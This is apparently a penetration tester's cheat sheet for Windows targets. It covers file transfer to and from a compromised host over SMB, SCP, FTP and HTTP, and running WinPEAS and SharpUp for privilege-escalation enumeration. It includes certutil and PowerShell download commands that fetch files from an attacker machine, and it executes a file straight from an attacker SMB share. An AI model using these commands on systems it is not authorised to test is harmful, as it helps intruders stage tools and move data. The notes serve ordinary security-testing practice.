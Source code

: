 ### Copy files from/to the target
- SMB:
```bash
sudo smbserver.py -smb2support share .
```
```cmd
copy <filename> \\<ip>\share
copy \\<ip>\share\<filename> .
```
- SMB _(simply execute the file)_:
```bash
sudo smbserver.py -smb2support share .
```
```cmd
\\<ip>\share\<filename>
```
- SCP:
```bash
scp <username>@<ip>:<file_in_home_directory> .
scp <filename> <username>@<ip>:<path>
```
- FTP:
```bash
python3 -m pyftpdlib -w -p 2121
```
```cmd
ftp # anonymous user and empty password
open <ip> 2121
put <some_local_file>
```
- HTTP:
```bash
sudo python3 -m http.server 80
```
```cmd
certutil -urlcache -split -f "http://<my_ip>/<filename>" <filename>
powershell -c "(New-Object System.Net.WebClient).DownloadFile(\"http://<my_ip>/<filename>\", \"<filename>\")"
```

## Autoenumeration _(WinPEAS)_
- Prepare:
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany.exe -O ./winpeas.exe

cp ~/pentesting-tools/winpeas/winPEASany.exe ./winpeas.exe # Or my stored version
```
- [Copy to the target](#copy-files-fromto-the-target)
- Run:
```cmd
.\winpeas.exe
```

## Autoenumeration _(SharpUp)_
- Prepare:
```bash
cp ~/pentesting-tools/sharpup/SharpUp.exe ./sharpup.exe
```
- [Copy to the target](#copy-files-fromto-the-target)
- Run:
```cmd
.\sharpup.exe
```
